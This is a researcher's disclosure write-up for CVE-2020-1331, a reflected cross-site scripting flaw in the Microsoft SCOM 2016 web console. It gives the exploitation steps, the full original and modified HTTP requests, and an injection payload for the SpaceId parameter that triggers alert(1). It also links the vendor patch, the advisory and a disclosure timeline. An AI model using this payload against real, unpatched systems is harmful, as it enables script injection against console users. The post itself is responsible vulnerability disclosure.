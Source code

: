 ```yaml
---
layout: post
date: 21-06-2020
title: CVE-2020-1331
permalink: /CVE-2020-1331/
category: cves
order: 1
---
```


# Microsoft SCOM 2016: Reflected Cross Site Scripting 
This article is going to describe in detail the [Reflected Cross Site Scripting (XSS)][1] vulnerability I found in the Microsoft System Center Operations Manager (SCOM) 2016.

Normally XSS vulnerabilities are very straightforward to find them. When the application fails to perform proper input validation/output encoding, it's just a matter of finding the correct HTTP parameter to inject the *alert(1)* and it pops-up in browser with little to no effort. 

However, it wasn't the case in SCOM 2016.
Most of the pages were performing proper input validation, except one. 
Most of the pages were performing output encoding, except one.
And for the best of luck of a pentester, they were linked: the page lacking output encoding was consuming data stored in session by the page lacking input validation. I just had to connect the dots and craft the specific payload to fit in the existing code.

## Exploitation steps

**1** - After logon, intercept the requests with a http-proxy (BurpSuite, ZAP), click on any of the available options on the Left Side Panel: *Monitoring*, *Favorites*.

**2** - After a few requests, the following one is sent:

**Original Request**

```
GET /OperationsManager/InternalPages/NavigationTree.aspx?SpaceId=1002&ViewId=Favorites_Overview HTTP/1.1
Host: [HOSTNAME]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://[HOSTNAME]/OperationsManager/default.aspx?ViewType=Overview&ViewID=Favorites_Overview
Connection: Keep-Alive
Cookie: ASP.NET_SessionId=[REDACTED]; JavaErrorShown=true; 
Upgrade-Insecure-Requests: 1
```
**3** - Inject the following payload into *SpaceId* query string parameter:

```
abc%3E%3C","00000000-0000-0000-0000-000000000000");alert(1);//%3E
```

**Modified Request**

```
GET /OperationsManager/InternalPages/NavigationTree.aspx?SpaceId=abc%3E%3C","00000000-0000-0000-0000-000000000000");alert(1);//%3E&ViewId=00000000-0000-0000-0000-000000000000 HTTP/1.1
Host: [HOSTNAME]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: [HOSTNAME]
Connection: Keep-Alive
Cookie: ASP.NET_SessionId=[REDACTED]; JavaErrorShown=true; 
Upgrade-Insecure-Requests: 1
```

The attack is applicable to any *viewID* value and every request with *SpaceId* query string parameter.

**4** - Reload the homepage, */OperationsManager* on this case, and voilà. The expected *alert(1)* pops-up. 


![Alert(1) pop-up](/assets/img/xss_1.png)


## Fix Patch
[Download](https://download.microsoft.com/download/2/c/2/2c24ee98-49b3-48d1-81ad-d741ca81be10/SCOM2016HotfixKB4563076.EXE)

## Microsoft Acknowledgement
[Microsoft Security Advisory
](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-1331)

[Microsoft Support CVE-2020-1331 article](https://support.microsoft.com/en-us/help/4566040/prevent-javascript-injection-in-operations-manager-2016-web-console)

## Vulnerability Timeline

* Reported to Microsoft on 16-Jan-2020
* Fix patch available on 09-Jun-2020

## External references

[https://nvd.nist.gov/vuln/detail/CVE-2020-1331
](https://nvd.nist.gov/vuln/detail/CVE-2020-1331)

[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1331](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1331)

[1]:https://owasp.org/www-community/attacks/xss/